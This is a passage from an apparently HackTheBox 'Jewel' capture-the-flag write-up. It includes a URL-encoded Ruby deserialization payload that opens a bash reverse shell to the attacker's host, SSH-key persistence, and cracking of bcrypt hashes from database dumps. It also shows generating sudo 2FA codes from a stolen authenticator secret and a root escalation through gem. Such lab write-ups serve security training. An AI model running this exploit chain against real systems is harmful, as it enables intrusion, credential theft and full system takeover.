    Upgrade-Insecure-Requests: 1
    
    utf8=%E2%9C%93&_method=patch&authenticity;_token=eSnVB8zuZnsjZk74kI25qdzauohSxBocGvXuNgM%2BQTQ5WQQg2mgZXL4N0oVkYX54bsCXWL%2BpbxHykU9E4f2S8A%3D%3D&user;%5B**username%5D=nihilist** &commit;=Update+User
    
    

And we want to inject the **username=** parameter with our payload: 
    
    
    POST /users/18 HTTP/1.1
    Host: 10.10.10.211:8080
    User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
    Accept-Language: en-US,en;q=0.5
    Accept-Encoding: gzip, deflate
    Referer: http://10.10.10.211:8080/users/18/edit
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 187
    Origin: http://10.10.10.211:8080
    Connection: close
    Cookie: _session_id=a5fa81a5202880405479de4a764d913d
    Upgrade-Insecure-Requests: 1
    
    utf8=%E2%9C%93&_method=patch&authenticity;_token=eSnVB8zuZnsjZk74kI25qdzauohSxBocGvXuNgM%2BQTQ5WQQg2mgZXL4N0oVkYX54bsCXWL%2BpbxHykU9E4f2S8A%3D%3D&user;%5B**username%5D=%04%08o%3A%40ActiveSupport%3A%3ADeprecation%3A%3ADeprecatedInstanceVariableProxy%09%3A%0E%40instanceo%3A%08ERB%08%3A%09%40srcI%22%3A%60bash+-c+%22bash+-i+%3E%26+%2Fdev%2Ftcp%2F10.10.14.11%2F9001+0%3E%261%22%60%06%3A%06ET%3A%0E%40filenameI%22%061%06%3B%09T%3A%0C%40linenoi%06%3A%0C%40method%3A%0Bresult%3A%09%40varI%22%0C%40result%06%3B%09T%3A%10%40deprecatorIu%3A%1FActiveSupport%3A%3ADeprecation%00%06%3B%09T** &commit;=Update+User
    

Now we can just forward this from the proxy tab without any problem and we see the following:

Now to trigger the exploit we need to press ENTER on the url above and only then do we get a reverse shell connection back to us:
    
    
    [ 10.10.14.11/23 ] [ /dev/pts/18 ] [HTB/jewel/exploit]
    → nc -lvnp 9001
    listening on [any] 9001 ...
    connect to [10.10.14.11] from (UNKNOWN) [10.10.10.211] 51560
    bash: cannot set terminal process group (802): Inappropriate ioctl for device
    bash: no job control in this shell
    bill@jewel:~/blog$ id
    id
    uid=1000(bill) gid=1000(bill) groups=1000(bill)
    
    bill@jewel:~/blog$ cd ..
    
    bill@jewel:~$ pwd
    pwd
    /home/bill
    
    bill@jewel:~$ cat user.txt
    cat user.txt
    5eXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
    
    

And here you see that we managed to get a reverse shell as the bill user, from which we managed to get the user flag. 

## **Part 3 : Getting Root Access**

Before we enumerate the box let's spawn a fully interactive TTY: 
    
    
    bill@jewel:~$ which python python3 wget curl
    which python python3 wget curl
    /usr/bin/python
    /usr/bin/python3
    /usr/bin/wget
    bill@jewel:~$ python3 -c 'import pty; pty.spawn("/bin/bash")'
    python3 -c 'import pty; pty.spawn("/bin/bash")'
    bill@jewel:~$ ^Z
    [1]  + 3559593 suspended  nc -lvnp 9001
    
    [ 10.10.14.11/23 ] [ /dev/pts/18 ] [HTB/jewel/exploit]
    → stty raw -echo ; fg
    [1]  + 3559593 continued  nc -lvnp 9001
                                           export TERM=screen-256color
    bill@jewel:~$ export SHELL=bash
    bill@jewel:~$ stty rows 50 columns 200
    bill@jewel:~$ reset
    
    

Now we could stay in the reverse shell or we could add our public SSH key to the box to SSH in as the user bill more easily:
    
    
    [terminal 1]
    [ 10.10.14.11/23 ] [ /dev/pts/25 ] [~/HTB/jewel]
    → cat ~/.ssh/mainpc.pub
    ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIAfhgjcMFy5mO4fwhQyW6vdX5bgTzqZTh9MhCW7+k6Sj nothing@nowhere
    
    [terminal 2]
    bill@jewel:~$ mkdir ~/.ssh/
    bill@jewel:~$ echo 'ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIAfhgjcMFy5mO4fwhQyW6vdX5bgTzqZTh9MhCW7+k6Sj nothing@nowhere' >> ~/.ssh/authorized_keys
    
    [terminal 1]
    [ 10.10.14.11/23 ] [ /dev/pts/23 ] [~/HTB/jewel]
    → ssh bill@10.10.10.211 -i ~/.ssh/mainpc
    Linux jewel.htb 4.19.0-10-amd64 #1 SMP Debian 4.19.132-1 (2020-07-24) x86_64
    
    The programs included with the Debian GNU/Linux system are free software;
    the exact distribution terms for each program are described in the
    individual files in /usr/share/doc/*/copyright.
    
    Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
    permitted by applicable law.
    Last login: Thu Sep 17 22:33:04 2020
    bill@jewel:~$ id
    uid=1000(bill) gid=1000(bill) groups=1000(bill)
    
    

Now let's run linpeas.sh onto the box to enumerate it: 
    
    
    [terminal 1]
    [ 10.66.66.2/32 ] [ /dev/pts/5 ] [~/HTB/jewel]
    → cp /home/nothing/HTB/passage/linpeas.sh .
    
    [ 10.66.66.2/32 ] [ /dev/pts/5 ] [~/HTB/jewel]
    → python3 -m http.server 9090
    Serving HTTP on 0.0.0.0 port 9090 (http://0.0.0.0:9090/) ...
    
    [terminal 2]
    bill@jewel:~$ wget http://10.10.14.11:9090/linpeas.sh -O /tmp/peas.sh
    --2021-06-29 16:52:41--  http://10.10.14.11:9090/linpeas.sh
    Connecting to 10.10.14.11:9090... connected.
    HTTP request sent, awaiting response... 200 OK
    Length: 341863 (334K) [text/x-sh]
    Saving to: ‘/tmp/peas.sh’
    
    /tmp/peas.sh                                      100%[=============================================================================================================>] 333.85K   174KB/s    in 1.9s    od
    
    2021-06-29 16:52:44 (174 KB/s) - ‘/tmp/peas.sh’ saved [341863/341863]
    
    bill@jewel:~$ chmod +x /tmp/peas.sh
    bill@jewel:~$ /tmp/peas.sh
    
    

` 

Let linpeas.sh run and then when it's done we first see that we got a few hashes to crack: 

    
    
    /var/backups/dump_2020-08-27.sql:$2a$12$sZac9R2VSQYjOcBTTUYy6.Zd.5I02OnmkKnD3zA6MqMrzLKz0jeDO
    /var/backups/dump_2020-08-27.sql:$2a$12$QqfetsTSBVxMXpnTR.JfUeJXcJRHv5D5HImL0EHI7OzVomCrqlRxW
    /home/bill/blog/bd.sql:$2a$12$uhUssB8.HFpT4XpbhclQU.Oizufehl9qqKtmdxTXetojn2FcNncJW
    /home/bill/blog/bd.sql:$2a$12$ik.0o.TGRwMgUmyOR.Djzuyb/hjisgk2vws1xYC/hxw8M1nFk0MQy
    
    bill@jewel:~$ grep 2a /var/backups/dump*
    2       jennifer        jennifer@mail.htb       2020-08-27 05:44:28.551735      2020-08-27 05:44:28.551735      $2a$12$sZac9R2VSQYjOcBTTUYy6.Zd.5I02OnmkKnD3zA6MqMrzLKz0jeDO
    1       bill    bill@mail.htb   2020-08-26 10:24:03.878232      2020-08-27 09:18:11.636483      $2a$12$QqfetsTSBVxMXpnTR.JfUeJXcJRHv5D5HImL0EHI7OzVomCrqlRxW
    

After running grep we see that we will probably need to privesc to the jennifer user. 
    
    
    [terminal 1]
    bill@jewel:~$ grep 2a /var/backups/dump* | awk '{print $2":"$8}'
    jennifer:$2a$12$sZac9R2VSQYjOcBTTUYy6.Zd.5I02OnmkKnD3zA6MqMrzLKz0jeDO
    bill:$2a$12$QqfetsTSBVxMXpnTR.JfUeJXcJRHv5D5HImL0EHI7OzVomCrqlRxW
    
    [terminal 2]
    [ 10.10.14.11/23 ] [ /dev/pts/22 ] [~/HTB/jewel]
    → cat hashes.txt
    jennifer:$2a$12$sZac9R2VSQYjOcBTTUYy6.Zd.5I02OnmkKnD3zA6MqMrzLKz0jeDO
    bill:$2a$12$QqfetsTSBVxMXpnTR.JfUeJXcJRHv5D5HImL0EHI7OzVomCrqlRxW
    
    

With this file we can crack the hashes locally with john, however before we do so let's grab all the hashes we can on the box: 
    
    
    bill@jewel:~$ grep 2a /home/bill/blog/bd.sql | awk '{print $2":"$8}'
    test333333:\N
    bill:$2a$12$uhUssB8.HFpT4XpbhclQU.Oizufehl9qqKtmdxTXetojn2FcNncJW
    jennifer:$2a$12$ik.0o.TGRwMgUmyOR.Djzuyb/hjisgk2vws1xYC/hxw8M1nFk0MQy
    
    

So here we see that we have another set of hashes for bill and jennifer: 
    
    
    [ 10.10.14.11/23 ] [ /dev/pts/22 ] [~/HTB/jewel]
    → cat hashes.txt
    jennifer:$2a$12$sZac9R2VSQYjOcBTTUYy6.Zd.5I02OnmkKnD3zA6MqMrzLKz0jeDO
    jennifer:$2a$12$ik.0o.TGRwMgUmyOR.Djzuyb/hjisgk2vws1xYC/hxw8M1nFk0MQy
    
    bill:$2a$12$QqfetsTSBVxMXpnTR.JfUeJXcJRHv5D5HImL0EHI7OzVomCrqlRxW
    bill:$2a$12$uhUssB8.HFpT4XpbhclQU.Oizufehl9qqKtmdxTXetojn2FcNncJW
    

And from here we crack them with hashcat with the bcrypt format: 
    
    
    [ 10.10.14.11/23 ] [ /dev/pts/23 ] [~/HTB/jewel]
    → hashcat --example-hashes
    
    [...]
    
    MODE: 3200
    TYPE: bcrypt $2*$, Blowfish (Unix)
    HASH: $2a$05$MBCzKhG1KhezLh.0LRa0Kuw12nLJtpHy6DIaU.JAnqJUDYspHC.Ou
    PASS: hashcat
    
    [...]
    
    [ 10.10.14.11/23 ] [ /dev/pts/22 ] [~/HTB/jewel]
    → hashcat -m 3200 hashes.txt /usr/share/wordlists/rockyou.txt --username
    hashcat (v6.1.1) starting...
    
    * Device #1: WARNING! Kernel exec timeout is not disabled.
                 This may cause "CL_OUT_OF_RESOURCES" or related errors.
                 To disable the timeout, see: https://hashcat.net/q/timeoutpatch
    * Device #2: WARNING! Kernel exec timeout is not disabled.
                 This may cause "CL_OUT_OF_RESOURCES" or related errors.
                 To disable the timeout, see: https://hashcat.net/q/timeoutpatch
    CUDA API (CUDA 11.3)
    ====================
    * Device #1: NVIDIA GeForce GTX 1050, 1310/1999 MB, 5MCU
    
    OpenCL API (OpenCL 3.0 CUDA 11.3.55) - Platform #1 [NVIDIA Corporation]
    =======================================================================
    * Device #2: NVIDIA GeForce GTX 1050, skipped
    
    OpenCL API (OpenCL 1.2 pocl 1.6, None+Asserts, LLVM 9.0.1, RELOC, SLEEF, DISTRO, POCL_DEBUG) - Platform #2 [The pocl project]
    =============================================================================================================================
    * Device #3: pthread-Intel(R) Core(TM) i5-6600 CPU @ 3.30GHz, skipped
    
    Minimum password length supported by kernel: 0
    Maximum password length supported by kernel: 72
    
    Hashes: 4 digests; 4 unique digests, 4 unique salts
    Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
    Rules: 1
    
    Applicable optimizers applied:
    * Zero-Byte
    
    Watchdog: Temperature abort trigger set to 90c
    
    Host memory required for this attack: 80 MB
    
    Dictionary cache hit:
    * Filename..: /usr/share/wordlists/rockyou.txt
    * Passwords.: 14344385
    * Bytes.....: 139921507
    * Keyspace..: 14344385
    
    $2a$12$QqfetsTSBVxMXpnTR.JfUeJXcJRHv5D5HImL0EHI7OzVomCrqlRxW:spongebob
    
    
    [ 10.10.14.11/23 ] [ /dev/pts/22 ] [~/HTB/jewel]
    → hashcat -m 3200 hashes.txt --username --show
    bill:$2a$12$QqfetsTSBVxMXpnTR.JfUeJXcJRHv5D5HImL0EHI7OzVomCrqlRxW:spongebob
    
    

And here we seem to have cracked one of the hashes, with the password **spongebob** for the user **bill** , now the interesting thing here is that we can check if this is bill's password by running **sudo -l** : 
    
    
    bill@jewel:~$ sudo -l
    [sudo] password for bill:
    Verification code:
    Sorry about this, I know it's a bit silly.
    [sudo] password for bill:
    Verification code:
    You must cut down the mightiest tree in the forest... with... a herring!
    
    

So here we get something interesting, we get a **Verification code:** message waiting for our input. And after a bit of googling we see that this is basically 2FA for sudo. And if we take a look at bill's directory we see that there is a **.google_authenticator** file:
    
    
    bill@jewel:~$ ls -lash .google_authenticator
    4.0K -r-------- 1 bill bill 56 Aug 28  2020 .google_authenticator
    bill@jewel:~$ cat .google_authenticator
    2UQI3R52WFCLE6JTLDCSJYMJH4
    " WINDOW_SIZE 17
    " TOTP_AUTH
    

So in order to exploit this we're going to install **oathtool** locally: 
    
    
    [ 10.10.14.11/23 ] [ /dev/pts/22 ] [~/HTB/jewel]
    → apt search oathtool
    Sorting... Done
    Full Text Search... Done
    oathtool/kali-rolling 2.6.6-3 amd64
      OATH Toolkit oathtool command line tool
    
    
    [ 10.10.14.11/23 ] [ /dev/pts/22 ] [~/HTB/jewel]
    → apt install oathtool -y
    
    [ 10.10.14.11/23 ] [ /dev/pts/22 ] [~/HTB/jewel]
    → oathtool -h
    Usage: oathtool [OPTION]... [KEY [OTP]]...
    Generate and validate OATH one-time passwords.  KEY and OTP is the string '-'
    to read from standard input, '@FILE' to read from indicated filename, or a hex
    encoded value (not recommended on multi-user systems).
    
      -h, --help                    Print help and exit
      -V, --version                 Print version and exit
          --hotp                    use event-based HOTP mode  (default=on)
          --totp[=MODE]             use time-variant TOTP mode (values "SHA1",
                                      "SHA256", or "SHA512")  (default=`SHA1')
      -b, --base32                  use base32 encoding of KEY instead of hex
                                      (default=off)
      -c, --counter=COUNTER         HOTP counter value
      -s, --time-step-size=DURATION TOTP time-step duration  (default=`30s')
      -S, --start-time=TIME         when to start counting time steps for TOTP
                                      (default=`1970-01-01 00:00:00 UTC')
      -N, --now=TIME                use this time as current time for TOTP
                                      (default=`now')
      -d, --digits=DIGITS           number of digits in one-time password
      -w, --window=WIDTH            number of additional OTPs to generate or
                                      validate against
      -v, --verbose                 explain what is being done  (default=off)
    
    Report bugs to: oath-toolkit-help@nongnu.org
    

So we copy the **.google_authenticator** file from the box to our local machine by doing a simple copy paste: 
    
    
    [ 10.10.14.11/23 ] [ /dev/pts/22 ] [~/HTB/jewel]
    → vim google_auth
    
    [ 10.10.14.11/23 ] [ /dev/pts/22 ] [~/HTB/jewel]
    → cat google_auth
    2UQI3R52WFCLE6JTLDCSJYMJH4
    " WINDOW_SIZE 17
    " TOTP_AUTH
    
    

And then from here we're going to use oathtool to get the key:
    
    
    [ 10.10.14.11/23 ] [ /dev/pts/22 ] [~/HTB/jewel]
    → oathtool -b --totp @google_auth
    998990
    
    [ 10.10.14.11/23 ] [ /dev/pts/22 ] [~/HTB/jewel]
    → oathtool -b --totp @google_auth
    998990
    
    

Now the hard part about this box was the fact that we need the exact same date and time from the box on our local machine. And that includes the timezone aswell. 
    
    
    [terminal 1]
    bill@jewel:~$ date
    Tue 29 Jun 17:32:33 BST 2021
    
    [terminal 2]
    [ 10.10.14.11/23 ] [ /dev/pts/5 ] [~/HTB/jewel]
    → date
    Tue 29 Jun 2021 06:24:25 PM CEST
    
    

So in order to keep track of the box's time we do the following: 
    
    
    [ 10.10.14.11/23 ] [ /dev/pts/18 ] [~/HTB/jewel]
    → ssh bill@10.10.10.211 -i ~/.ssh/mainpc
    Linux jewel.htb 4.19.0-10-amd64 #1 SMP Debian 4.19.132-1 (2020-07-24) x86_64
    
    The programs included with the Debian GNU/Linux system are free software;
    the exact distribution terms for each program are described in the
    individual files in /usr/share/doc/*/copyright.
    
    Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
    permitted by applicable law.
    Last login: Tue Jun 29 17:11:10 2021 from 10.10.14.11
    bill@jewel:~$ watch -n 1 date
    
    

This will simply display the date+time every second, we let that run in another pane, and accordingly we change system time aswell: 
    
    
    [ 10.10.14.11/23 ] [ /dev/pts/5 ] [~/HTB/jewel]
    → sudo date -s  "6/29/2021 17:37:10"
    [sudo] password for nothing:
    Tue 29 Jun 2021 05:37:10 PM CEST
    
    

Now be careful this is not enough! you need to set the timezone aswell: 
    
    
    [terminal 1]
    bill@jewel:~$ timedatectl
                   Local time: Tue 2021-06-29 17:39:46 BST
               Universal time: Tue 2021-06-29 16:39:46 UTC
                     RTC time: Tue 2021-06-29 16:39:46
                    Time zone: Europe/London (BST, +0100)
    System clock synchronized: no
                  NTP service: active
              RTC in local TZ: no
    
    [terminal 2]
    [ 10.10.14.11/23 ] [ /dev/pts/5 ] [~/HTB/jewel]
    → sudo timedatectl set-timezone Europe/London
    
    [ 10.10.14.11/23 ] [ /dev/pts/5 ] [~/HTB/jewel]
    → date
    Tue 29 Jun 2021 05:42:02 PM BST
    
    [terminal 1]
    bill@jewel:~$ date
    Tue 29 Jun 17:42:02 BST 2021
    
    

Now that both systems have their timezones, dates, and time synced, we run oathtool: 
    
    
    [ 10.10.14.11/23 ] [ /dev/pts/5 ] [~/HTB/jewel]
    → oathtool -b --totp @google_auth
    268760
    
    

And we use it to run **sudo -l** : 
    
    
    [terminal 1]
    bill@jewel:~$ sudo -l
    [sudo] password for bill: **spongebob**
    Verification code:
    
    [terminal 2]
    [ 10.10.14.11/23 ] [ /dev/pts/5 ] [~/HTB/jewel]
    → oathtool -b --totp @google_auth
    707638
    
    
    [terminal 1]
    Verification code: 707638
    Matching Defaults entries for bill on jewel:
        env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin,
        insults
    
    User bill may run the following commands on jewel:
        (ALL : ALL) /usr/bin/gem
    
    

And once that's done we see that we have been able to successfully run sudo -l, and we see that we can run **/usr/bin/gem** as root without any password, so let's use this [gtfobin](https://gtfobins.github.io/gtfobins/gem/): 
    
    
    bill@jewel:~$ sudo gem open -e "/bin/sh -c /bin/sh" rdoc
    [sudo] password for bill:
    Verification code:
    # id
    uid=0(root) gid=0(root) groups=0(root)
    # cat /root/root.txt
    d0XXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
    
    

And we managed to get root a root shell with the root flag! 

## **Conclusion**

Here we can see the progress graph :

